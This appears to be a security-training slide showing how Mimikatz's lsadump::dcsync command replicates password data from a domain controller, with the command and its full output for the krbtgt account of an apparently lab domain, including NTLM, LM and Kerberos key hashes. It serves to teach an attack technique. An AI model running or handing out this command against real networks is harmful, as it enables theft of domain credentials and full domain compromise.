

# DCSync with Mimikatz
Mimikatz can perform the MS-DRSR RPC call and retrieve the user hashes stored on the domain controller using the lsadump::dcsync functionality.
C:\> Mimikatz.exe
Mimikatz # lsadump::dcsync /domain:asgard.corp /user: ASGARD\krbtgt
SAM Username : krbtgt
Object Security ID : S-1-5-21-2716382980-2373322634-4127565559-502
Credentials:
 Hash NTLM: d6a9e8d303d88aa310f95f14feac90b1
 ntlm- 0: d6a9e8d303d88aa310f95f14feac90b1
 lm - 0: ac092f5be282a6f104f0c5c0ecac51bd
Credentials
 aes256_hmac (4096) : dd002d202266f9c5aa9beb5eaba6518dc57212b2a3e6ff7c2fbf3ded21259da1
 aes128_hmac (4096) : ab5bc15c43d6055f90d6ce52f3de1400
 des_cbc_md5 (4096) : 23762f45836b5219